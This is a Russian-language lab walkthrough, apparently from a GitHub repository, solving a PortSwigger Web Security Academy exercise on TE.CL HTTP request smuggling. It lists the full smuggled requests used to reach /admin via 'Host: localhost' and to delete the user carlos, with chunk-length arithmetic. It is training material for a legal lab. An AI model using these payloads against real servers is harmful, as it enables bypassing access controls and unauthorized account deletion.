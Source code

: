 будем считать, что мы уже знаем, что тут `TE.CL`, и сразу начнем с данным знанием

```
POST / HTTP/1.1
Host: 0a5e009403d00499802b582200920092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

5a
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0

```
внизу сонтект ленгтх =6 потому что 5+1

5а потому что столько длиной запрос 
```
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
```
а вверху контент ленгтх 4 ибо такая длина у `5a\r\n\`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/7.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20TE.CL%20vulnerability/pics%20for%20walkthrough/1.png)

а вдогонку пошлем обычный запрос
```
POST / HTTP/1.1
Host: 0a5e009403d00499802b582200920092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
После чего видим, что разрешено подключаться только с локалхостом

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/7.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20TE.CL%20vulnerability/pics%20for%20walkthrough/2.png)
отлично, добавим 
`Host: localhost`

и изменим значение c `5а` на `6b` так как мы добавили` Host: localhost` и длина запроса увеличилась

```
POST / HTTP/1.1
Host: 0a5e009403d00499802b582200920092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

6b
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0

```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/7.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20TE.CL%20vulnerability/pics%20for%20walkthrough/3.png)

отправим следующий дефолтный запрос, и увидим, что нас уже пустило в админку
```
POST / HTTP/1.1
Host: 0a5e009403d00499802b582200920092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/7.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20TE.CL%20vulnerability/pics%20for%20walkthrough/4.png)

отлично, теперь удалим carlos'а как этого и требует задание

```
POST / HTTP/1.1
Host: 0a5e009403d00499802b582200920092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

82
POST /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0

```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/7.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20TE.CL%20vulnerability/pics%20for%20walkthrough/5.png)
отправим дефолтный запрос
```
POST / HTTP/1.1
Host: 0a5e009403d00499802b582200920092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

пройдем по всем редиректам и получим уведомление об успешно выполненной лабораторной работе


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/7.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20TE.CL%20vulnerability/pics%20for%20walkthrough/6.png)
